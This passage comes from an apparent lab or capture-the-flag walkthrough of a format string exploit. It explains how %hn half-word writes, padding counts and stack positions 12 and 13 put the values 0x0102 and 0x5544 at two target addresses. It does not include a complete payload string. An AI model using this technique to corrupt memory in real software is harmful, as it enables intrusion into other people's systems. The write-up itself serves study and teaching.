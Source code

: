 ### 11. Half-Word Write Strategy
```bash
# Strategy: Use %hn to write 16-bit values
# %hn writes only the lower 16 bits of the character count

# Write sequence:
# 1. Write high word (0x0102 = 258) to address 0x8049812
# 2. Write low word  (0x5544 = 21828) to address 0x8049810

# Challenge: Must write smaller value first to avoid wraparound issues
# 258 < 21828, so write high word first
```

### 12. Stack Setup for Exploit
```
Format string payload structure:
┌────────────────┬────────────────┬─────────────┬─────────────┬─────────────┬─────────────┐
│   4 bytes      │   4 bytes      │  Variable   │      4      │  Variable   │      4      │
│ 0x8049812      │ 0x8049810      │   padding   │   bytes     │   padding   │   bytes     │
│(high addr)     │ (low addr)     │    for      │   "%12$hn"  │    for      │   "%13$hn"  │
│                │                │    258      │             │   21570     │             │
└────────────────┴────────────────┴─────────────┴─────────────┴─────────────┴─────────────┘
    Position 12      Position 13
    (0-indexed 11)   (0-indexed 12)
```

## Detailed Memory Exploitation

### 13. Character Count Calculation
```bash
# Target values:
# High word: 258 (0x0102)
# Low word:  21828 (0x5544)

# Payload structure analysis:
# 8 bytes (two addresses) + padding + format specifiers

# First write (high word):
# 8 bytes + 250 padding = 258 total → writes 0x0102 to 0x8049812

# Second write (low word):  
# 258 + 21570 padding = 21828 total → writes 0x5544 to 0x8049810
```

### 14. Stack State During printf() Execution

**Initial stack when printf() is called:**
```
Stack Position:    Content:           Description:
12 (%12$):        0x8049812          High word address  
13 (%13$):        0x8049810          Low word address
14 (%14$):        Next stack value   ...
15 (%15$):        Next stack value   ...
```
